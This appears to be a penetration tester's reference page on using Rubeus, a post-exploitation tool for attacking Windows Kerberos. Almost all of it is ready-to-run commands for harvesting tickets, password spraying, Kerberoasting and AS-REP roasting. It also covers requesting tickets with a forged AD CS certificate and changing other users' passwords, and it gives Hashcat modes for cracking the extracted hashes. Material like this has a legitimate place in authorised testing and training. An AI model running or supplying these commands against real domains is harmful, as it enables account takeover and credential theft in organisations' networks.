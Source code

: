 # Using Rubeus

* **author**:: Nathan Acks
* **date**:: 2022-05-11

Rubeus is a Windows-only post-exploitation tool for attacking Kerberos. No compiled binaries are available (either through the GitHub repo or Kali Linux's `windows-binaries` package).

NOTE: To use Rebueus you need to already be on the domain you are attacking, or alternately need to have mapped the domain controller (which normally hosts the KDC) IP address properly in C:/Windows/System32/drivers/etc/hosts.

* [Rubeus](https://github.com/GhostPack/Rubeus)
* [Kerberos](kerberos.md)

## Harvest Kerberos Tickets

```powershell
# Harvest ticket granting tickets observed by the current machine.
# Probably works best when run on a domain controller.
#
Rubeus.exe harvest /interval:30
```

## Password Spraying

```powershell
# Spray the specified password across all known users and generate a
# ticket giving ticket for successful authentications. (Can trigger
# account lockouts!)
#
Rubeus.exe brute /password:ThePasswordToSpray /noticket
```

## Kerberoasting

```powershell
# Extract password hashes for all known kerberoastable accounts using
# Rubeus.
#
Rubeus.exe kerberoast
```

The password hashes output here can then be cracked with Hashcat (use the 13100 hash mode).

* [Using Hashcat](hashcat.md)

## AS-REP Roasting

```powershell
# AS-REP roasting with Rubeus.
#
Rubeus.exe asreproast
```

To use Hashcat to crack the hashes obtained in this fashin, first insert `23$` after the leading `$kerb5asrep$` (so `$kerb5asrep$` → `$kerb5asrep$23$`) and then use mode 18200.

## Using a Certificate to Request a Ticket

```powershell
# Request a ticket using a certificate from AD CS.
#
Rubeus.exe asktgt /user:$USER `
                  /enctype:aes256 `
                  /certificate:$CERTIFICATE_FILE `
                  /password:$CERTIFICATE_FILE_PASSWORD `
                  /outfile:$TICKET_FILE `
                  /domain:$DOMAIN `
                  /dc:$DC_IP_ADDRESS
```

This is very useful if we've used an AD CS misconfiguration as described by SpectreOps' "Certified Pre-Owned" research to forge a certificate that's valid for another user.

* [SpectreOps: Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2)

## Change a User's Password

```powershell
# We can use Rubeus to change the password for domain users so long as
# our ticket is for a user with permission to do so (generally the user
# themselves or a domain admin.
#
Rubeus.exe changepw /ticket:$TICKET_FILE `
                    /new:$NEW_PASSWORD `
                    /dc:$DC_IP_ADDRESS `
                    /targetuser:$DOMAIN\$USER
```
